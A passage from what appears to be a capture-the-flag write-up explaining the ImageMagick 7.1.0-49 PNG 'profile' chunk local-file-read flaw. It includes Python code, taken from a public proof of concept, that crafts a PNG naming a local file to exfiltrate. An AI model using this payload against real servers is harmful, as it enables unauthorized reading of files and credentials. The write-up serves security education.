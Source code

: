 this is because when processing a PNG image, the vulnerable code path mishandles embedded data chunks. if the embedded chunk is the string `profile` then ImageMagick will interpret the text string as a filename and will load the content as a raw profile.

this is because profile arguments in ImageMagick are additional metadata associated with an image, such as ICC color profiles or EXIF metadata.

instead of checking for actual binary data, ImageMagick also allows a file path string, which allows for LFI. ImageMagick will read the `profile` key in the image and attach the payload file content as additional metadata, which can then be retrieved.

we can confirm the presence of this vulnerability by examining the ImageMagick version from the config files:

```bash
--version)
  echo '7.1.0-49 Q16 HDRI'
  ;;
```

this embedding can be done through PoCs available online, such as this one by SybilScan on [GitHub](https://github.com/Sybil-Scan/imagemagick-lfi-poc) that can generate the payload.

let's go through the source code.

generate a gradient image and save to `gradient.png`:

```python
width = 255
height = 255
img = []
for y in range(height):
    row = ()
    for x in range(width):
        row = row + (x, max(0, 255 - x - y), y)
    img.append(row)

with open('gradient.png', 'wb') as f:
    w = png.Writer(width, height, greyscale=False)
    w.write(f, img)
```

inject the text chunk into the image metadata:

```python
info = PngImagePlugin.PngInfo()
info.add_text("profile", args.lfile)
im = Image.open("gradient.png")
im.save(args.output, "PNG", pnginfo=info)
```

run:

![payload](/images/scriptctf_images/wizard_gallery/poc.png)
